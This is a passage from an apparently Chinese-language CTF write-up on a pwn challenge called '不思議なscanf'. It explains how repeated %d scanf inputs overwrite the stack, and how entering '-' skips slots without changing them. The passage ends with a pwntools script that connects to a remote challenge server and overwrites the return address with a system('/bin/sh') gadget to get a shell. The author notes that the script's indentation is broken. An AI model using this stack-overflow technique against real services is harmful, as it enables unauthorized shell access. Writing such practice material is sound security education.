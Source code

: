 ```python

p.interactive()
```
![[Pasted image 20241013113914.png]]
可以看到最终泄露出来的`canary`

### 不思議なscanf
![[Pasted image 20241013114131.png]]
除了PIE和RELRO全开，打开ida查看
![[Pasted image 20241013114232.png]]
![[Pasted image 20241013114242.png]]
有后门函数，主函数意为循环输入十五次，打开gdb调试查看
![[Pasted image 20241013114454.png]]
![[Pasted image 20241013114502.png]]
输入一个很大的值后发现0x7fffffffdc10位置被修改为0xffffffff，再次输入可以发现同一位置被修改为![[Pasted image 20241013114611.png]]
同时根据scanf函数被调用时的参数![[Pasted image 20241013114633.png]]
可以发现scanf的参数为%d既只能输入int类型的数，否则则会错误并无法输入
![[Pasted image 20241013114803.png]]
多次输入后发现可以慢慢将栈空间覆盖，那么只需要将返回地址覆盖为backdoor的地址即可获取shell，但原程序中的printf函数没有格式化字符串漏洞，所以我们不能泄露栈上的数据，那么需要找到办法使scanf函数输入后不改变栈上的值。经过调试可以发现输入`-`时栈上的值不会被改变![[Pasted image 20241013115045.png]]
![[Pasted image 20241013115052.png]]
根据这个特性即可构造exp。
exp:
```python
from pwn import *
import pwnlib.gdb

context.log_level = 'debug'
local = False
if local:
    p = process('./scanf')
    pwnlib.gdb.attach(p, 'b main')
else:
    p = remote('8.147.132.32', 20300)

backdoor = 0x40123B # 4198971
binsh = 0x402056
system = 0x400527
system_binsh = 0x401261 # 4199009
  

for i in range(10):
	# 这里复制过来的在markdown里看着有问题，下面这个recvuntil应该是在for里面和payload同级
	      p.recvuntil(b'\xe3\x82\x8f\xe3\x81\x9f\xe3\x81\x97\xe3\x80\x81\xe6\xb0\x97\xe3\x81\xab\xe3\x81\xaa\xe3\x82\x8a\xe3\x81\xbe\xe3\x81\x99\xef\xbc\x81')

    payload = '-'

    p.sendline(payload)

p.recvuntil(b'\xe3\x82\x8f\xe3\x81\x9f\xe3\x81\x97\xe3\x80\x81\xe6\xb0\x97\xe3\x81\xab\xe3\x81\xaa\xe3\x82\x8a\xe3\x81\xbe\xe3\x81\x99\xef\xbc\x81')
payload = '4199009'
p.sendline(payload)
p.recvuntil(b'\xe3\x82\x8f\xe3\x81\x9f\xe3\x81\x97\xe3\x80\x81\xe6\xb0\x97\xe3\x81\xab\xe3\x81\xaa\xe3\x82\x8a\xe3\x81\xbe\xe3\x81\x99\xef\xbc\x81')
payload = '0'
p.sendline(payload)
```
